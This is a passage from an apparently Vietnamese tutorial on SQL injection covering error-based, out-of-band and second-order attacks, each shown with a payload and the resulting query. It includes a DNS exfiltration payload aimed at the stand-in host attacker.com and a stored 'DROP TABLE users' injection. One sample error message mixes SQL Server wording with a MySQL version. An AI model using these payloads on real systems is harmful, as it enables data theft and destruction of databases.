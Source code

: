 Payload: `1' AND CAST((SELECT version()) AS INT) --`

Kết quả: 

```sql
SELECT * FROM users WHERE user_id = '1' AND CAST((SELECT version()) AS INT) --
```

Nếu truy vấn này gây ra lỗi (ví dụ: "Conversion failed when converting the varchar value 'MySQL 8.0.23' to data type int"), kẻ tấn công có thể xác định phiên bản cơ sở dữ liệu đang sử dụng, từ đó có thể có được các thông tin khác.

## 5. Out-of-Band SQL Injection

**Tình huống:** Kẻ tấn công có thể trích xuất dữ liệu bằng cách gửi nó đến một server bên ngoài thông qua DNS hoặc HTTP request.

Truy vấn gốc:

```sql
SELECT * FROM users WHERE username = '[user_name]';
```

Payload:`' AND 1=(SELECT LOAD_FILE(CONCAT('\\', (SELECT database()), '.attacker.com\test')))--`
Kết quả: 

```sql
SELECT * FROM users WHERE username = '' AND 1=(SELECT LOAD_FILE(CONCAT('\\', (SELECT database()), '.attacker.com\test')))--
```

Nếu truy vấn thành công, cơ sở dữ liệu sẽ gửi yêu cầu DNS đến `attacker.com`, tiết lộ tên cơ sở dữ liệu cho kẻ tấn công.

## 6. Second-Order SQL Injection

**Tình huống**: Một ứng dụng cho phép người dùng cập nhật tên tài khoản của họ. Tên mới này được lưu trữ trong cơ sở dữ liệu và sau đó được sử dụng trong một truy vấn khác để hiển thị hoặc xử lý dữ liệu.
Kẻ tấn công cập nhật tên người dùng

```sql
UPDATE users SET username = 'hacker'); DROP TABLE users; --' WHERE user_id = 123;
```

Câu lệnh này được hệ thống lưu trữ mà không gây ra lỗi ngay lúc đó.

Hệ thống sử dụng dữ liệu đã bị nhiễm độc. 
Một truy vấn khác sử dụng giá trị `username` mới mà không xử lý an toàn:

```sql
SELECT * FROM users WHERE username = 'hacker'); DROP TABLE users; --';
```

Khi truy vấn này chạy, bảng `users` sẽ bị xóa do câu lệnh SQL độc hại đã được lưu trước đó.

# Quy trình tấn công
